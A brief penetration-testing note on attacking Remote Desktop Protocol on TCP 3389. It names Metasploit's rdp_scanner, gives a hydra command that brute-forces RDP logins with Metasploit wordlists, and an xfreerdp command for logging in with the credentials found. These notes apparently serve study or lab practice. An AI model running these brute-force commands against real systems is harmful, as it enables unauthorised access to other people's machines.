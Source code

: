 
Remote Desktop Protocol (TCP 3389)

Requires legit user auth

In msfconsole we can user rdp_scanner

To bruteforce creds

``` bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://[IP] -s [port]
```

Then we can login with

``` bash
xfreerdp /u:[user] /p:[passwords] /v:[IP]:[port]
```

